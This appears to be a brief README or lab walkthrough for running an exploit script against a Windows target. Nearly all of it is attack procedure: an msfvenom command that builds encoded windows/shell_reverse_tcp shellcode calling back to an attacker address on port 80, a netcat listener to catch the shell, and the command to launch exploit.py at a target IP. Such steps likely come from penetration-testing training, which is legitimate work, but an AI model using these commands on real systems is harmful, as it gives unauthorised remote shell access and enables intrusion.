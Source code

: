 1. Edit exploit.py in 43 line to 87 
2. make a shell code and replace shell code from output
   ```
   msfvenom -p windows/shell_reverse_tcp -b  "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.45.209 LPORT=80 -e x86/alpha_mixed -f c

   ```
3. get netcat
   ```
   rlwrap nc -lnvp 80

   ```
4. run exploit code
   ```
   python2 exploit.py target_ip

   ```
